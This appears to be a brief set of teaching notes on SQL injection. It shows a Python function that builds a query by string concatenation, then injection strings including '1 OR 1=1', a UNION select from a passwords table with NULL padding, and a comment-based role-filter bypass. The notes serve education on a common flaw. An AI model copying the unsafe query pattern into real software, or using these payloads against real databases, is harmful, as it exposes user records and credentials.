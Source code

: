 ```yaml
---
layout: notes
---
```

# SQL Injection (comment)

The following code is vulnerable to SQL Injection, if the input is unfiltered.

```python
  def get_userdata(self, id):
     cursor = db.cursor()
     cursor.execute('SELECT * FROM users WHERE id = '+ id)
     return cursor.fetchall()
```

To return all the records, the attacker could trigger a call with

```
   id = "1 OR 1=1"
```

It is also possible to execute multiple queries with

```
   id = "1 OR 1; union select * from passwords"
```

The latter may not work when tables have different columns, but it can be fixed easily to align the them. In this example the table passwords has two columns less than users:

```
   id = "1 OR 1; union select *,NULL,NULL from passwords"
```

Imagine now the following query:

```sql
   SELECT * FROM users WHERE id = ' + id + ' and role = 'student'
```

It can be attacked with:

```
   id = "1 OR 1=1;--"
```

resulting in

```sql
   SELECT * FROM users WHERE id = 1 OR 1=1;-- and role = 'student'
```

and therefore returning all values of users, regardless the role

<img src="exploits_of_a_mom.png" class="img-responsive"/>
